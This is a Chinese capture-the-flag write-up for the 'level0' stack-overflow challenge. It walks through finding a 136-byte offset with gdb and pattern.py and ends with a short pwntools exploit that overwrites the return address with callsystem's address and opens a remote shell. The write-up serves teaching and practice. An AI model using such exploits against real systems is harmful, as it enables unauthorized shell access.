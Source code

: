 ## **[工具]**

gdb、objdump、python、pwntools, IDA

## **[过程分析]**

拿到这道题，首先要做的先检查有哪些保护机制是打开的：

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/1.png)没有开 canary，PIE 也是关闭的，但是栈不可执行。也就是说我们可以进行溢出，但是不能将 shellcode 写在栈上，因为现在栈上的代码是不能被执行的。

用ida查看：

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/2.png)这是 vulnerable_function 函数，可以在栈上写0x200个字节，或许我们可以进行溢出，覆盖掉返回地址，劫持程序执行流，执行我们想执行的方法。通常我们的目的是去执行 `system("/bin/sh")`。

- 看看有价值的strings，除了输出的helloworld 还发现了“/bin/sh”，查看调用发现了 callsystem函数，我们可以把返回地址改成callsystem的地址。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/8.png)

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/9.png)双击bin/sh就能查看bin/sh的存储位置

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/10.png)将光标放置在bin/sh这一行，按键盘上x就能找到哪里调用了bin/sh，这样我们就找到了callsystem。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/11.png)

那么我们到底需要输入多少个字节才能覆盖到返回地址呢？

- 我们用pattern.py来确定溢出点的位置,使用如下命令来生成一串150个字节的字符串。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/3.png)* 然后我们使用gdb来进行调试

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/4.png)* 指针并没有指向类似于0x3745413675413465那样地址，而是停在了vulnerable_function()函数中。因为程序使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/5.png)* 虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于“pop rip”指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/6.png)* 然后我们再用pattern来计算溢出点

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/7.png)可以看到溢出点为136字节

- 程序中有一个callsystem函数，我们可以把返回地址改成这个函数的地址。 最终执行system("/bin/sh")。构造payload：

```
payload = "A"*0x88 + elf.symbols["callsystem"]
```

完整exp：

```python
from pwn import *
# p = process("./level0")
elf = ELF("./level0") 
p = remote('10.10.49.194', 30154)
padding = "A"*0x88 
addr = elf.symbols["callsystem"]
payload = "" 
payload += padding 
payload += p64(addr)
p.send(payload) 
p.interactive()
```
